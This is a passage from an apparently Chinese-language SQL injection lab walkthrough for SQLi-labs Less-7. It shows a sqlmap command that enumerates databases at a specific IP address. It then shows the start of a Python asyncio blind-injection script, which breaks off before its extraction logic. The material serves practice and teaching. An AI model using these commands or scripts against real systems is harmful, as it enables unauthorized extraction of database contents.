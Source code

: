 <img src="./assets/image-20241007025705280.png" alt="image-20241007025705280" style="zoom: 25%;" />

- 也可以用`sqlmap`跑,但是我觉的没有意义

- ```cmd
  sqlmap -u "http://8.137.60.154:8082/Less-7/?id=1" --dbs
  ```

  <img src="./assets/image-20241007031824497.png" alt="image-20241007031824497" style="zoom:25%;" />

- 使用`盲注`

  ```python
  import aiohttp
  import asyncio
  from prettytable import PrettyTable
  from colorama import Fore, Style  # 导入 colorama
  
  url = "http://8.137.60.154:8082/Less-7/"
  max_length = 20  # 假设字段最大长度为20
  
  # 定义要使用的字符集
  charset = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l',
             'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x',
             'y', 'z', '0', '1', '2', '3', '4', '5', '6', '7',
             '8', '9', '_', '$', '@', '(', ')', '-', '.', '[', ']', '^',
             '{', '}', '~']
  
  async def fetch(session, payload):
      async with session.get(url + payload) as response:
          return await response.text()
  
  async def get_database_name(session):
      db_name = ""
  ```